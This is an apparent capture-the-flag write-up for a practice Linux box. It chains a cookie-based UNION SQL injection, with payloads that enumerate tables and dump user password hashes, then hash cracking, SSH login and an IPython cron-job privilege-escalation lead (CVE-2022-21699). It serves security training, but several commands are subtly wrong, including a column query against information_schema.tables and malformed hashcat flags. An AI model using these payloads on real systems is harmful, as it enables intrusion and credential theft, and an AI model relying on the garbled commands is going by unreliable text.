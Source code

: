 # Shared
### Medium linux box

##### Start with an nmap scan:
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FvunymQaGuIELhAVfpFNU%2Fnmapscan.jpg?alt=media&token=36d6168c-845f-4150-be68-ecfc1a51dd68 "nmap results")

##### Visit port 80 and navigate to the checkout page. There's a URL encoded cookie named `custom_cart=`. Decode the cookie and note it's format: `<Item>:<Quantity>`

##### The cookie ended up being vulnerable to SQLi. Portswigger's sqli courses helped a lot here. URL encode the payload.

#### `' UNION SELECT 1 -- -` No values
#### `' UNION SELECT 1,2 -- -` No values
#### `' UNION SELECT 1,2,3 -- -` Values are reflected!
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FiMA8il58YnoiSfSBNhwv%2FBURPCOOKIESQL.jpg?alt=media&token=ca2f7673-855a-4e73-9e13-626d989795d6 ")

### SQLi payloads:
##### Find current database:
#### `' UNION SELECT 1,database(),3 -- -`
##### Get tables in checkout database:
#### `'UNION SELECT 1,group_concat(table_name),3 from information_schema.tables WHERE table_schema='checkout' -- -`
##### Enumerate columns in user table from the checkout database:
#### `' UNION SELECT 1,group_concat(column_name),3 from information_schema.tables WHERE table_schema='user' -- -`
##### Get values from the user table:
#### `' UNION SELECT 1,group_concat(id, ':', password),3 from checkout.user -- -`

##### Finally, we get a hash that we can crack! I used hashcat
#### `hashcat -a -0 -m -0 <hash> <wordlist>`

##### ssh into the james_mason account with the cracked password

### Privilege Escalation
##### Transfer pspy64 and linpeas to the machine to see running processes and find sensitive files.
##### We find ipython and an interesting file, `/opt/scripts_review`. It reveals a cronjob being every minute by `dan_smith`
```bash
/bin/sh -c
/usr/bin/pkill ipython;
cd opt/scripts review/ && /usr/local/bin/ipython
```
##### Looking more into ipython, I found CVE-2022-21699. "Arbitrary code execution vulnerability in IPython that stems from IPython executing untrusted files in CWD. This vulnerability allows one user to run code as another"
